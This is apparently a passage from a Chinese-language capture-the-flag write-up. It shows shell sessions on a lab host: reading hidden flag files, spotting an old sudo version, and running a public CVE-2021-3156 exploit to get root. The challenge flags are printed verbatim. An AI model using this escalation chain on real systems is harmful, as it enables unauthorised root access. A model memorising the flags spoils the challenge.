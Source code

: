 列出目录下的所有文件

```bash
(remote) aas@Leakage:/home/aas$ ls -lah
total 28K
drwxr-xr-x 3 aas  aas  4.0K Feb  9  2020 .
drwxr-xr-x 3 root root 4.0K Feb  9  2020 ..
-rw------- 1 root root    0 Dec  7  2019 .bash_history
-rw-r--r-- 1 aas  aas   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 aas  aas  3.7K Apr  4  2018 .bashrc
-r-------- 1 aas  aas    21 Feb  9  2020 flag.txt
-rw-r--r-- 1 root root   38 Feb  9  2020 .hiddenflag.txt
dr-xr-x--- 2 aas  aas  4.0K Feb 10  2020 .ssh
(remote) aas@Leakage:/home/aas$ cat .hiddenflag.txt
AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}
```

```plaintext title="Flag
AKERVA{IkNOW#=ByPassWerkZeugPinC0de!}
```

## Super Mushroom

探测环境中，注意到 `sudo` 的版本信息

```bash
(remote) aas@Leakage:/home/aas$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

查询漏洞库之后，定位到 `CVE-2021-3156`

使用 [CVE-2021-3156/exploit_nss.py at main · worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py) 进行攻击

```bash
(remote) aas@Leakage:/tmp$ ./exploit
[sudo] password for aas:
There's a lot of it about, you know.
(remote) root@Leakage:/tmp$ whoami
root
```

在 `/root` 目录中，列出文件夹信息

```bash
(remote) root@Leakage:/root# ls -lh
total 8.0K
-rw-r--r-- 1 root root  26 Feb  9  2020 flag.txt
-r-------- 1 root root 206 Feb  9  2020 secured_note.md
(remote) root@Leakage:/root# cat flag.txt
AKERVA{IkNow_Sud0_sUckS!}
```
